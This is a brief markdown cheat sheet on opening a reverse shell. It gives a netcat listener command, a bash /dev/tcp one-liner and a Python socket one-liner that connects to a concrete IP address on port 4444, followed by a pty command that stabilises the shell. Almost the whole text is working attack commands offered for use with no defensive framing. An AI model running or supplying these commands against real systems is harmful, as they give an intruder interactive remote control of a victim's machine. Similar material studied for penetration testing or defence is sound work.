 # To open reverse shell:
on the attack machine run:
```
nc -lvnp 4444
```
this will open a socket listening on port 4444, and then on the target machine run:
## if the machine have --enable-net-redirections set:
```
bash -i >& /dev/tcp/<ip>/4444 0>&1
```
## if the machine haven't, like default set of macos:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.89.102.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
This will connect to the port 4444 on the attack machine ip.
The connection can be unstable, so run the command to start a stable terminal, on mac it is really unstable, I think because of constant garbage collection, really random...:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
